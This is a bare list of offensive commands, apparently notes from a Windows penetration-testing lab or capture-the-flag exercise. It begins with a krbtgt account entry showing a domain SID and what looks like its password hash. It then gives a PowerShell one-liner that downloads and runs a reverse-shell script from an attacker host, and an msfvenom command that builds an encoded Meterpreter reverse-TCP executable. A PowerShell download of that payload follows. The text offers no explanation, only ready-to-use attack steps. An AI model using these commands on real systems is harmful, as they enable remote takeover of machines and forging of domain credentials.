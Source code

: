 krbtgt:S-1-5-21-849420856-2351964222-986696166:5508500012cc005cf7082a9a89ebdfdf

powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.216.154:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.216.154 -Port 1337

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai EXITFUNC=thread LHOST=10.8.20.45 LPORT=9001 -f exe -o revshell9001exit.exe

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.20.45:8000/revshell9001.exe','revshell9001.exe')"